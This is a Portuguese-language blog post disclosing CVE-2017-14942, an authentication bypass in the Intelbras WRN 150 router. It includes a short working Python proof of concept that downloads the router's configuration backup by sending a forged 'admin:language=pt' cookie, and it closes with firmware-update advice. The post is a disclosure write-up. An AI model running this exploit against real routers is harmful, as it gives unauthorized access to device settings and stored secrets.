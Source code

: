 ```yaml
---
title: "[CVE-2017-14942] Autentication Bypass - INTELBRAS WRN 150 - [PT-BR]"
layout: post
date: '2017-09-29 13:28:24'
description: 'Intelbras exploit: Obtendo acesso ao painel administrador sem senha admin'
image: '/assets/images/posts/xxs/1501.png'
tags:
- cve
- poc
author: "f0lds"
---
```


[CVE-2017-14942](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14942){:target="_blank" rel="noopenner noreferrer"}

[Exploit](https://www.exploit-db.com/exploits/42916/){:target="_blank" rel="noopenner noreferrer"}

### Start:

Recentemente postei um tópico onde explico uma vulnerabilidade que encontrei num dos roteadores da Intelbras "O que você tem contra a Intelbras?" Nada, se eu não gostasse deles eu não estaria usando os roteadores deles, sou apenas alguém curioso e que gosta de escrever :v.

### A vulnerabilidade:

Após tentar aplicar o mesmo ataque xss no outro roteador (Intelbras WRN 150), adicionei no código uma função que me enviaria os cookies do painel do router, no primeiro teste funcionou, na segunda tentativa quando testei só para confirmar o script, também obtive êxito, foi ai que notei aquele pequeno cookie nos Headers que parecia ser o único utilizado para autenticação. A cada vez que alterava a senha ele permanecia ali.

![Passo 1]({{ site.url }}/assets/images/posts/xxs/1501.png)

Agora faremos uma requisição na página ```"http://10.0.0.1/advance.asp"``` com o cookie normal

![Passo 2]({{ site.url }}/assets/images/posts/xxs/1502.png)

ele identifica o usuário não autenticado e retorna para a página de login.

Agora faremos a mesma requisição, alterando o cookie do painel. 

![Passo 3]({{ site.url }}/assets/images/posts/xxs/1503.png)

### Resultado:

![Passo 4]({{ site.url }}/assets/images/posts/xxs/1504.png)

Podemos baixar o arquivo de configurações através do link de backup, fiz um pequeno script para demonstrar

```
#pip install requests
from requests import get

url = "http://10.0.0.1/cgi-bin/DownloadCfg/RouterCfm.cfg"
#url do backup
header = {'Cookie': 'admin:language=pt'}
#setando o cookie no header
r = get(url, headers=header).text
print(r);
```

![Passo 5]({{ site.url }}/assets/images/posts/xxs/1505.png)

### Prevenção

Vulnerabilidade na versão de firmware 1.0.1, baixei uma versão recente e a vulnerabilidade foi corrigida Para se proteger basta somente baixar a nova firmware disponibilizada pela Intelbras e atualizar o seu router.
